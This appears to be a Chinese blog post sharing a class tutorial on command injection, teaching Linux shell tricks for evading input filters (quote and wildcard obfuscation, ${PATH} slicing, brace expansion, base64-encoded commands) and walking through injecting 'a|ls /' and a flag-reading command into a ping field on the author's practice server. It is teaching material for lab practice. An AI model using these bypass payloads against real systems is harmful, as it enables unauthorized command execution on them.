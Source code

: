 ```yaml
---
layout: post
title: 网管课分享
subtitle: 分享	
date: 2020-11-18
author: mr_king
header-img: img/backimg/bd_10.jpg
catalog: true
tags: 
    -分享
    -学习笔记
---
```


## 命令执行

## 前言

给大家开了一个真实的环境，大家可以上去试试（一个靶场）

大家悠着点访问：人太多的话，可能会巨卡甚至奔溃（服务器性能不行）

http://39.103.131.197:8004/ 

http://49.234.221.56:8004/
这是我的阿里云服务器，别乱搞哦。。。。（相当与我给大家授权了）

首先声明一点：在做任何渗透测试之前，没有授权是违法的哦，在未授权的情况下，别去搞别人的站点

### 1.1 Linux下的符号和逻辑运算符

```bash
a=who
b=ami
$a$b
```

![0tPDVe.png](https://s1.ax1x.com/2020/10/05/0tPDVe.png)

Linux下需要用$引用变量

那么我们又可以怎么组合呢，接着来看

Linux下用分号(;)表示命令结束后执行后面的命令，无论前面的命令是否成功

```bash
ping www. ; whoami
echo tj ; whoami
```

![0ti3sf.png](https://s1.ax1x.com/2020/10/05/0ti3sf.png)

符号|在Linux中，可以连接命令,第一条命令的结果，作为第二条命令的输入

符号||在Linux中，如果||左边的命令（命令1）未执行成功，那么就执行||右边的命令（命令2）

符号&&在Linux中，如果左边的命令(命令1)返回真(成功被执行)后，&&右边的命令(命令2)才能够被执行

符号&在linux中，多个命令同时执行，不管前面命令执行成功没有，后面的命令继续执行

根据以上几点结合一个：

```bash
t=l; j=s; i=" -al"; $t$j$i
```

![0tkS3R.png](https://s1.ax1x.com/2020/10/05/0tkS3R.png)

### 1.2linux进阶，符号之间的组合

Linux下，**双引号**和**幂运算符**号都不会影响命令的执行

```bash
whoami
wh$1oami
wh$@oami
who""""ami
whoa$*mi

c$1at /f$1lag
```

在linux中?扮演的角色是匹配任意一个字符，用?来绕过限制

```bash
which whoami //找到whoami路径
# whoami: /usr/bin/whoami /usr/share/man/man1/whoami.1.gz

/u?r/?in/wh?am?

which ifconfig //找到ifconfig
# /sbin/ifconfig
/sbin/if?onfig
```

![0UJXIe.png](https://s1.ax1x.com/2020/10/06/0UJXIe.png)

同理可得，星号*在linux中用来代表一个或多个任何字符，包括空字符

```basj
whoami

/*/bin/wh*mi
/us*/*in/who*mi
```

![0aesyQ.png](https://s1.ax1x.com/2020/10/07/0aesyQ.png)

### 1.3 linux深入，命令中的命令

```bash
666`whoami`666
//命令执行后的结果在2个666中间
```

![0ae5SU.png](https://s1.ax1x.com/2020/10/07/0ae5SU.png)

再次组合起来

```bash
who`echo a`mi#返回结果拼接为字符串，再次执行
w`saldkj2190`ho`12wsa2`am`foj11`i
wh$(70shuai)oa$(fengfeng)mi

```

![0anvse.png](https://s1.ax1x.com/2020/10/07/0anvse.png)

### 1.4 利用linux中的环境变量

linux是可以使用环境变量里的字符执行变量

首先echo $PATH

```bash
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Linux下严格区分大小写，不可以写成$path

```bash
echo ${PATH:number_start:length}
```

```bash
/:0  u:1  s:2  r:3  /:4  l:5  o:6  c:7  a:8  l:9  /:10  s:11  b:12  i:13  n:14  ::15  /:16  u:17  s:18  r:19  /:20  l:21  o:22  c:23  a:24  l:25  /:26  b:27  i:28  n:29  ::30  /:31  u:32  s:33  r:34  /:35  s:36  b:37  i:38  n:39  ::40  /:41  u:42  s:43  r:44  /:45  b:46  i:47  n:48  ::49  /:50  s:51  b:52  i:53  n:54  ::55  /:56  b:57  i:58  n:59  ::60  /:61  u:62  s:63  r:64  /:65  g:66  a:67  m:68  e:69  s:70  ::71  /:72  u:73  s:74  r:75  /:76  l:77  o:78  c:79  a:80  l:81  /:82  g:83  a:84  m:85  e:86  s:87
#每个主机的环境变量不一样，这是我云主机的变量每位
```

如果我现在要查看/root/目录下的1.txt文件，就可以这样操作操作

```bash
cat ${PATH:0:1}${PATH:44:1}${PATH:22:1}${PATH:22:1}t${PATH:0:1}1.txt
```

![0aGAbT.png](https://s1.ax1x.com/2020/10/07/0aGAbT.png)

### 1.5 使用大括号绕过空格过滤

在linux下我们还可以使用大花括号来绕过空格的限制，比如ls -alt命令中间的空格

```bash
{ls,-alt}
```

![0aR39A.png](https://s1.ax1x.com/2020/10/07/0aR39A.png)

再比如cat /etc/passwd命令中间的空格

### 1.6 了解重定向符号在绕过中的作用

我们还可以使用<>来绕过空格。请仔细看执行后的效果。linux中，小于号<表示的是输入重定向，就是把<后面跟的文件取代键盘作为新的输入设备，而>大于号是输出重定向，比如一条命令，默认是将结果输出到屏幕。但可以用>来将输出重定向，用后面的文件来取代屏幕，将输出保存进文件里

```bash
ls<>a
```

![0a4IIO.png](https://s1.ax1x.com/2020/10/07/0a4IIO.png)

### 1.7linux中特殊的base64编码

我们还可以在自己的linux系统中将命令进行base64编码，然后再拿去目标请求中命令执行,使用base64的-d参数解码。

```bash
echo whoami|base64 //先输出whoami的base64编码
`echo dwhvYW1pCg==|base64 -d` //将其base64解码
```

![0aIdEV.png](https://s1.ax1x.com/2020/10/07/0aIdEV.png)

### 1.8靶机实战

靶机地址 http://39.103.131.197:8004/ 

![image-20201125101314766](C:\Users\Mr.King\AppData\Roaming\Typora\typora-user-images\image-20201125101314766.png)

发现拼接命令

没有任何过滤，构造命令a| ls /

```bash
ping -c 2 a|ls /#查看根目录文件
```

[![DUstY9.png](https://s3.ax1x.com/2020/11/25/DUstY9.png)](https://imgchr.com/i/DUstY9)

查看flag a|cat /flllaagg

[![DUshOf.png](https://s3.ax1x.com/2020/11/25/DUshOf.png)](https://imgchr.com/i/DUshOf)

Linux命令执行方法很多，不止我写的这一种，大家可以自己试验。